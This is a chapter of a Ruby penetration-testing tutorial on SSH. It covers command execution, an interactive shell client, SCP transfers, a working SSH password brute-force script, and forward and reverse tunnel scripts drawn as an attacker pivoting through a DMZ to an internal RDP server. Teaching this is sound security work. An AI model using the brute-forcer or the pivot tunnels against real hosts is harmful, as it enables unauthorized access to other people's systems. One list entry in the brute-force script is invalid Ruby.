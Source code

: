 # SSH
Here we'll show some SSH using ruby. We'll need to install net-ssh gem for that.

- Install net-ssh gem
```
gem install net-ssh
```

## Simple SSH command execution
This is a very basic SSH client which sends and executes commands on a remote system
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

## SSH Client with PTY shell
Here a simple SSH client which give you an interactive PTY

```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"

Net::SSH.start(@hostname, @username, :password => @password, :auth_methods => ["password"]) do |session|

  # Open SSH channel
  session.open_channel do |channel|

    # Requests that a pseudo-tty (or "pty") for interactive application-like (e.g vim, sudo, etc)
    channel.request_pty do |ch, success|
      raise "Error requesting pty" unless success

      # Request channel type shell
      ch.send_channel_request("shell") do |ch, success|
        raise "Error opening shell" unless success
    	STDOUT.puts "[+] Getting Remote Shell\n\n" if success
      end
    end

    # Print STDERR of the remote host to my STDOUT
    channel.on_extended_data do |ch, type, data|
      STDOUT.puts "Error: #{data}\n"
    end

    # When data packets are received by the channel
    channel.on_data do |ch, data|
      STDOUT.print data
      cmd = gets
      channel.send_data( "#{cmd}" )
      trap("INT") {STDOUT.puts "Use 'exit' or 'logout' command to exit the session"}
    end

    channel.on_eof do |ch|
      puts "Exiting SSH Session.."
    end

    session.loop
  end
end
```

## SSH brute force

**ssh-bf.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
#
require 'net/ssh'

def attack_ssh(host, user, password, port=22, timeout = 5)
  begin
    Net::SSH.start(host, user, :password => password,
        		   :auth_methods => ["password"], :port => port,
        		   :paranoid => false, :non_interactive => true, :timeout => timeout ) do |session|
      puts "Password Found: " + "#{host} | #{user}:#{password}"
    end

  rescue Net::SSH::ConnectionTimeout
    puts "[!] The host '#{host}' not alive!"
  rescue Net::SSH::Timeout
    puts "[!] The host '#{host}' disconnected/timeouted unexpectedly!"
  rescue Errno::ECONNREFUSED
    puts "[!] Incorrect port #{port} for #{host}"
  rescue Net::SSH::AuthenticationFailed
    puts "Wrong Password: #{host} | #{user}:#{password}"
  rescue Net::SSH::Authentication::DisallowedMethod
    puts "[!] The host '#{host}' doesn't accept password authentication method."
  end
end


hosts = ['192.168.0.1', '192.168.0.4', '192.168.0.50']
users = ['root', 'admin', 'rubyfu']
passs = ['admin1234', 'P@ssw0rd', '123456', 'AdminAdmin', 'secret', coffee]

hosts.each do |host|
  users.each do |user|
    passs.each do |password|

      attack_ssh host, user, password

end end end
```

## SSH Tunneling

### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ftunnel.rb on the **SSH Server**

**ssh-ftunnel.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |   |                       |                 |                 |
  `->-'                       |-----------------|-----------------|
```
Run ssh-rtunnel.rb on the **SSH Server**

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')

  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SSH from the **SSH Server** to **localhost** on the localhost's SSH port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer",
                    "root",
                    "/rubyfu/file.txt", "/root/",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                )
```

- Download file

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer",
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



